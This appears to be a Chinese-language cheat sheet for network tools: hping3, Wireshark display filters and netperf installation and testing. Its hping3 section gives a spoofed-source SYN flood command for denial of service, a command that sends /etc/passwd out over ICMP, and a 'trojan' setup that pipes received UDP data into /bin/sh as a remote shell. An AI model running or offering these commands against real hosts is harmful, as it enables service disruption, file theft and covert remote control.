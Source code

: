 # hping3
hping3是一款免费的数据包生成器和分析器。可用于安全审计、防火墙规则测试、网络测试、端口扫描、性能测试，压力测试(DOS)，几乎可以发送任意类型的TCP/IP数据包。功能强大但是每次只能向一个IP地址发送数据包，还能够在两个相互包含的通道之间传送文件。
 - ping服务：hping3 -S  -c 1000000 -a 10.10.10.10 -p 21 10.10.10.10
 - 数据包跟踪：hping3 –traceroute -V -1 www.baidu.com（类似于traceroute www.baidu.com）
 - 端口扫描：hping3 -I eth0  -S 192.168.10.1 -p 80
            hping3 -8 1-1024 192.168.100.102
 - 拒绝服务攻击：对目标机发起大量SYN连接，伪造源地址为192.168.10.99，并使用1000微秒的间隔发送各个SYN包。此外还能进行Sync flood攻击、TCP flood攻击、ICMP flood攻击、UDP flood攻击等多种DOS攻击.
    hping3 -I eth0 -a192.168.10.99 -S 192.168.10.33 -p 80 -i u1000
 - 文件传输：在接收端开启服务：hping3 192.168.1.159--listen signature --safe  --icmp  
            在发送端使用签名打包的ICMP包发送文件：hping3 192.168.1.108--icmp ?d 100 --sign signature --file /etc/passwd
 - 木马功能：在木马启动端：hping3 192.168.10.66--listen signature --safe --udp -p 53 | /bin/sh  
            在远程控制端：
            `echo ls >test.cmd
            hping3 192.168.10.44 -p53 -d 100 --udp --sign siganature --file ./test.cmd`

 
# wireshark
### 过滤源ip、目的ip
在wireshark的过滤规则框Filter中输入过滤条件。如查找目的地址为192.168.101.8的包，ip.dst==192.168.101.8；查找源地址为ip.src==1.1.1.1；
### 查找源地址或者目的地址为8.8.8.8的报文：
Ip.addr==8.8.8.8
端口过滤。如过滤80端口，在Filter中输入，tcp.port==80，这条规则是把源端口和目的端口为80的都过滤出来。使用tcp.dstport==80只过滤目的端口为80的，tcp.srcport==80只过滤源端口为80的包；
协议过滤比较简单，直接在Filter框中直接输入协议名即可，如过滤HTTP的协议；
### http模式过滤
如过滤get包，http.request.method=="GET",过滤post包，http.request.method=="POST"；<br>
连接符and的使用。过滤两种条件时，使用and连接，如过滤ip为192.168.101.8并且为http协议的，ip.src==192.168.101.8 and http。<br>
# nmap
# netperf
传输层工具  
 Netperf是一种网络性能的测量工具，主要针对基于TCP或UDP的传输。主要用来测试吞吐量。Netperf工具以client/server方式工作。server端是netserver，用来侦听来自client端的连接，client端是netperf，用来向server发起网络测试。测试过程中，在服务器上运行serverperf，同时在客户端上运行netperf。Netperf和netserver都是可执行脚本。
## 安装方法
```
yum clean all
yum makecache
yum -y update
yum install -y iptraf
wget ftp://ftp.netperf.org/netperf/netperf-2.7.0.tar.gz
(如果别的地方有netperf和netserver两个脚本可以直接拷贝过来使用)
./configure
make
make install
```   
## 一般运行方法
使用：直接运行脚本，如下连接192.168.5.2上的netserver,持续50秒，统计结果将在50秒后显示. 要求在192.168.5.2上开启
```
./netserver &
./netperf –H 192.168.5.2 –l 50
``` 
 -r：设置request和response分组的大小<br>
 TCP_RR: 在一个TCP连接中进行多次TCP request和response的交易过程，这种模式常常出现在数据库应用中。